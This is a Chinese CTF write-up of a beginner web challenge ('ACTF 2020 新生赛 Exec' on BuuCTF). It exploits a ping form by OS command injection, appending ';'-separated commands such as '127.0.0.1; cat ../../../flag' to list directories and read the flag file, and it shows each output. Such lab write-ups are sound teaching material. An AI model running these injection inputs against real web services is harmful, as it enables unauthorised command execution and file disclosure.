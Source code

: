 # \[ACTF 2020 新生赛\] Exec

![](https://img.shields.io/badge/%E9%A2%98%E7%9B%AE%E6%9D%A5%E6%BA%90-BuuCTF-blue?style=for-the-badge)
![](https://img.shields.io/badge/%E4%B8%AA%E4%BA%BA%E8%AF%84%E4%BB%B7-%E8%8F%9C%E9%B8%9F-green?style=for-the-badge)

## 前置工作

打开靶机，看到如下画面，标题叫 `command execution`，他的页面上看他能 PING，于是我就 PING 了一下 127.0.0.1，看起来像是 Linux 系统的 PING

![](https://p.sda1.dev/13/f3becaa967e319af51db168013617399/image.png)

## 并行命令

不由得想试试看接上分号 `;` 后进行命令并行，那就先传入一个 `127.0.0.1; ls ./`，回应如下

```
PING 127.0.0.1 (127.0.0.1): 56 data bytes
64 bytes from 127.0.0.1: seq=0 ttl=42 time=0.078 ms
64 bytes from 127.0.0.1: seq=1 ttl=42 time=0.106 ms
64 bytes from 127.0.0.1: seq=2 ttl=42 time=0.136 ms

--- 127.0.0.1 ping statistics ---
3 packets transmitted, 3 packets received, 0% packet loss
round-trip min/avg/max = 0.078/0.106/0.136 ms
index.php
```

貌似没有 Flag，那就再传入 `127.0.0.1; ls ../`，回应如下

```
PING 127.0.0.1 (127.0.0.1): 56 data bytes
64 bytes from 127.0.0.1: seq=0 ttl=42 time=0.071 ms
64 bytes from 127.0.0.1: seq=1 ttl=42 time=0.133 ms
64 bytes from 127.0.0.1: seq=2 ttl=42 time=0.113 ms

--- 127.0.0.1 ping statistics ---
3 packets transmitted, 3 packets received, 0% packet loss
round-trip min/avg/max = 0.071/0.105/0.133 ms
html
localhost
```

还是没有 Flag，那就再试 `127.0.0.1; ls ../../`

```
PING 127.0.0.1 (127.0.0.1): 56 data bytes
64 bytes from 127.0.0.1: seq=0 ttl=42 time=0.097 ms
64 bytes from 127.0.0.1: seq=1 ttl=42 time=0.137 ms
64 bytes from 127.0.0.1: seq=2 ttl=42 time=0.131 ms

--- 127.0.0.1 ping statistics ---
3 packets transmitted, 3 packets received, 0% packet loss
round-trip min/avg/max = 0.097/0.121/0.137 ms
cache
empty
lib
local
lock
log
mail
opt
run
spool
tmp
www
```

再上面就是根目录 `/` 了，只能再试试看 `127.0.0.1; ls ../../../`

```
PING 127.0.0.1 (127.0.0.1): 56 data bytes
64 bytes from 127.0.0.1: seq=0 ttl=42 time=0.104 ms
64 bytes from 127.0.0.1: seq=1 ttl=42 time=0.126 ms
64 bytes from 127.0.0.1: seq=2 ttl=42 time=0.100 ms

--- 127.0.0.1 ping statistics ---
3 packets transmitted, 3 packets received, 0% packet loss
round-trip min/avg/max = 0.100/0.110/0.126 ms
bin
dev
etc
flag
home
lib
media
mnt
opt
proc
root
run
sbin
srv
sys
tmp
usr
var
```

终于看到了一个叫 `flag` 的文件，我们尝试下去读取他 `127.0.0.1; cat ../../../flag`，得到 Flag

```
PING 127.0.0.1 (127.0.0.1): 56 data bytes
64 bytes from 127.0.0.1: seq=0 ttl=42 time=0.097 ms
64 bytes from 127.0.0.1: seq=1 ttl=42 time=0.149 ms
64 bytes from 127.0.0.1: seq=2 ttl=42 time=0.123 ms

--- 127.0.0.1 ping statistics ---
3 packets transmitted, 3 packets received, 0% packet loss
round-trip min/avg/max = 0.097/0.123/0.149 ms
flag{c6000520-b03d-49c8-a628-2d26af095af7}
```